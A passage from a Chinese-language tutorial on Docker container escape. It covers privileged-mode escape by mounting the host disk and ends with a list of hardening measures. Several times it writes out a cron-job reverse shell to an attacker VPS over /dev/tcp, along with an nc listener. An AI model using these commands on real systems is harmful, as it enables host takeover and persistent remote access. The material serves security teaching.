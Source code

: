 ```
echo '* * * * * bash -i >& /dev/tcp/vps的ip/8888 0>&1' >> /nuoyan/var/spool/cron/root
```

7. 写一个计划任务反弹 shell(或者写. ssh 公钥都 OK)

```
nc -lvp 8888
```

```
8.在vps上使用nc命令等待反弹过来的shell
```

nc -lvp 8888

**利用特权模式逃逸**
============

漏洞原理
----

使用特权模式启动容器，可以获取大量设备文件访问权限。因为当管理员执行 docker run —privileged 时，Docker 容器将被允许访问主机上的所有设备，并可以执行 mount 命令进行挂载。

漏洞利用
----

1. 查看磁盘文件  
fdisk -l  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavxrGfZ0YIvHv7WhHBH4RltficTicibicpxwKVgCcs9srQMmrloFaS3o9y6JMneAFB83sjsBNIZeqiaQLVQ/640?wx_fmt=png)

2. 将 / dev/vda1 也就是磁盘挂在到本地的任意文件下

```
mkdir /nuoyan
mount /dev/vda1 /nuoyan
```

此时这个 nuoyan 文件夹就相当于对方主机的根目录，可以进行写文件操作。

3. 写入计划任务

```
echo '* * * * * bash -i >& /dev/tcp/vps的ip/8888 0>&1' >> /nuoyan/var/spool/cron/root
```

```
4.在vps上等待shell反连接
```

```
nc -lvp 8888
```

**防止 docker 逃逸的方法**
===================

1、更新 Docker 版本到 19.03.1 及更高版本——CVE-2019-14271、覆盖 CVE-2019-5736  
2、runc 版本 > 1.0-rc6  
3、k8s 集群版本 > 1.12  
4、Linux 内核版本 >=2.6.22——CVE-2016-5195(脏牛)  
5、Linux 内核版本 >=4.14——CVE-2017–1000405(大脏牛)，未找到 docker 逃逸利用过程，但存在逃逸风险  
6、不建议以 root 权限运行 Docker 服务  
7、不建议以 privileged（特权模式）启动 Docker  
8、不建议将宿主机目录挂载至容器目录  
9、不建议将容器以—cap-add=SYSADMIN 启动，SYSADMIN 意为 container 进程允许执行 mount、umount 等一系列系统管理操作，存在容器逃逸风险
